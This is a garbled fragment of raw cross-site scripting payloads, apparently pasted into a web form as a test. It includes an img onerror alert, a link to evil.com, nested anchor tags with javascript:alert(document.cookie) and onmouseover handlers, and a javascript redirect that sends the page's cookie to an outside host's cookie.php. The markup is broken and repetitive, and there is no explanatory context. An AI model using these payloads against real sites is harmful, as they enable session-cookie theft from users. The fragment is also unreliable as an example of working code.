 # -lt-img-src-ssx-onerror-alert-40-1-41-gt-
&amp;lt;img src=ssx onerror=alert&amp;#40;1&amp;#41;&amp;gt;/ &lt;a href="http://evil.com">&lt;span class="btn button button--orange button--wide">XSS&lt;/a>&lt;/span>  &lt;h1>holaa||&lt;a href="http://&lt;a href="http://&lt;a href="http://&lt;a href="javascript:alert(documen.cookie)" onmouseover="javascript:alert(document.cookie)">aaagle.com&lt;/a>">aaale.com&lt;/a>">aaagle.com&lt;/a>">gle.com&lt;/a> hhh  &lt;h1>holaa||&lt;a href="http://&lt;a href="http://&lt;a href="http://&lt;a href="javascript:window.location='https://growncheckerworl.com/cookie.php?cookie=document.cookie'" >aaaaaaaaaaaaaaaaaaaaaaaaaagle.com&lt;/a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com&lt;/a>">aaaaaaaaaaaaaaaaaaaaaaaaaagle.com&lt;/a>">gle.com&lt;/a> hhhk
